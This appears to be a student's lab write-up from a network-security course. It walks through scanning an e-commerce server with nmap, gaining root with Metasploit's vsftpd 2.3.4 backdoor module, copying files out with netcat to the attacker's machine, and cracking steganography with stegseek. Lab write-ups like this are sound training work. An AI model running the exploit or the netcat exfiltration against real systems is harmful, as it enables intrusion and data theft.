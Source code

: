 # Network Security Injection Project

In this project I and other team members attacked a server using various security tools and tactics. Through this project, we learned how security breaches occur and how to defend systems and networks.

During this endeavor we used two virtual machines in a VLAN. The first was a Kali box and the second was an ecommerce server. Using Kali, we attacked the server and tested its defense mechanisms. While completing the exercise, we were to assume that the e-commerce server was not visible and therefore we did not attempt to log in.

## Injection Number 1

In injection one we were tasked with creating a security policy and introducing the team to the instructor. The security policy and team introduction we wrote can be found here: https://github.com/TristanJRogers/Network-Security/blob/main/Injection%201.docx 

## Injection Number 2

In injection two the team and I were tasked with the following. 

1. Scan the network to find find the IP address of the e-commerce server
2. Scan the e-commerce server and detect the version of the services that were running

For task 1 the team and I used NMAP to scan the entire subnet. In the picture below you will see a hit for 192.168.1.1 which was most likely a router and a hit for 192.168.1.220. We were able to identify 192.168.1.220 as the e-commerce server due to port 80 and port 3306 being open along with the url given in the scan.

![image](https://github.com/user-attachments/assets/22d9fa04-afaa-47dc-bad0-0d3e0be807d4)

For task 2 we used the command nmap -sV on the e-commerce servers IP to display the version of all services open on the e-commerce server. 

![image](https://github.com/user-attachments/assets/0e3b9e18-2af9-4d05-b8a8-42ea459a58e7)

## Injection Number 3

In injection three the team was tasked with breaking into the server using Metasploit

Using the versions of services running on the e-commerce server, we saw that the FTP service it was running had a backdoor vulnerability. We used the (unix/ftp/vsftpd_234_backdoor) exploit on the e-commerce server and were able to gain a access. 

![image](https://github.com/user-attachments/assets/1c4a3094-ca7b-4c50-9f62-5a347c6a85c9)

Finally, to prove we had root access we used the commands whoami, id, pwd, and ls. See the output below. 

![image](https://github.com/user-attachments/assets/1c4ddbf0-5961-4f41-ba46-b0869da00cff)

## Injection Number 4

In injection number four we were tasked with tasked with transferring three files in from the e-commerce server to our kali machine via Netcat. 

We used the command "nc -v 192.168.1.7 69 <insert file name>" on the ecommerce server and command nc-v -l -p69 > <insert file name> on the kali machine

E-commerce server

![image](https://github.com/user-attachments/assets/28e2c63e-8225-42e2-807c-e403169fb9f2)

Kali machine

![image](https://github.com/user-attachments/assets/d6e0b2df-d472-4d74-ab7b-aa38863df461)

For the final results you will see that in the screenshot below, the files were successfully transferred to our kali machine. 

![image](https://github.com/user-attachments/assets/0585b8fc-a4f7-4c6a-97e5-13a897a44ac0)

## Injection Number 5

In injection number five we were to find a "treasure" within the image file we transferred over to our kali machine. The instructions we were given were located in a file that was encrypted using an RSA algorithm(0x8F6568A3-pub.asc.encrypted.txt).

Here you can see where we unencrypted the file using www.pgptool.org

![image](https://github.com/user-attachments/assets/0c62573f-f7c2-43dc-a9b2-07d3b7db45a2)

As you can see, the instructions indicated that the treasure was hidden using steganography

We tried to use steghide and a password list to find the hidden treasure but it failed. We then began to research and found Stegseek. We then used stegseek with a password list and were finally able to find the hidden treasure: a (fake) credit card number.

![image](https://github.com/user-attachments/assets/a108aa18-a9a1-4a7d-a72d-c8b1f1201d70)

![image](https://github.com/user-attachments/assets/8690dfe1-aac0-4504-9691-3debc9f54f09)

![image](https://github.com/user-attachments/assets/daa6707a-d087-4c55-b918-34b2e3328530)

The full injection five write up can be found here:

## Tools/Software Used

www.pgptool.org

Steghide

Stegseek

Metasploit

Netcat

NMAP

Kali Linux

Steganography

RSA Encrption






















